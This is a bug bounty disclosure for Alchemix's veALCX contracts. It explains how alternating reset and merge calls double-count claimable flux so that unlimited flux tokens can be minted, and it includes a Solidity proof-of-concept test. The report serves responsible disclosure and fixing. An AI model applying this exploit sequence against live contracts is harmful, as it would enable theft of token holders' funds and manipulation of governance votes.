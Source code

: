 
# Malicious user can mint unlimited flux tokens

Submitted on May 16th 2024 at 05:35:05 UTC by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31280

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Theft of unclaimed yield

## Description
## Brief/Intro
A malicious user can mint unlimited flux by calling reset ( to receive claimable flux ) and merging it with another token and calling reset again to claim again and repeat this process and mint unlimited flux. 

## Vulnerability Details
Users earn flux proportion to the amount of veALCX they hold at each epoch, they can use claimable flux for boosting voting power, mint flux tokens or add It to their unclaimed value through the reset function of the voter contract so they can use it in the future.
The merge function ensures users didn't vote in the same epoch that they want to merge the token to prevent double calculation of claimable flux by checking `voted[]` mapping, however, users can call reset to receive claimable flux ( it's added to unclaimed flux ), since reset function sets voted to false and only updates lastVoted ( which doesn't affect merging ) user can 
merge the token with another token and receive the claimable amount again.  

Scenario:
A malicious user creates two different locks ( first with 100 locked value and second with 1 lock value ), flux per veALCX in this epoch is 1, user calls the reset function at voter contract and claims 100 flux for token1 and then merges token1 with the token2, and call reset for token2 and receives 101 flux ( while user received 100 flux before merge ), user earned 201 flux in this epoch instead of 101 tokens, user can create another small lock and merge the token2 with new lock and call reset again and repeat this process to mint unlimited flux.

## Impact Details
The attacker can use unlimited flux tokens to boost voting power and direct emission to a specific gauge ( direct theft of unclaimed yield )

Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield  ) 
, the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L651



## Proof of Concept
```
      function testMintUnlimitedFlux() external {

        // create 2 lock tokens for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);
        uint256 token2Flux = veALCX.claimableFlux(tokenId2);
        uint256 totalClaimable = token1Flux + token2Flux;

        // user calls reset for token1, so claimable flux for token 1 is added to unclaimed amount of token1 
        hevm.prank(admin);
        voter.reset(tokenId1);

        // user merges token1 and token2, so unclaimed amount of token1 is added to token2 unclaimed 
        hevm.prank(admin);
        veALCX.merge(tokenId1, tokenId2);

        // user calls reset for token2, so claiamble amount is added to unclaimed 
        // due to merge amount of token1 has been added to token2 and effects claimable flux despite that flux for that amount is being added to unclaimed flux already  
        hevm.prank(admin);
        voter.reset(tokenId2);

        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId2);
        // user has more flux that totalClaimable at first place 
        assert(unclaimedFlux > totalClaimable);
        // token1Flux is double claculated during claiming flux  
        // NOTE: used assert Approx due to precision loss during calculation of claimable amount 
        uint256 claimed = 2 * token1Flux + token2Flux;
        assertApproxEqAbs(claimed, unclaimedFlux, 100000000);

        // malicious user can repeat this to mint unlimited flux 
    }
```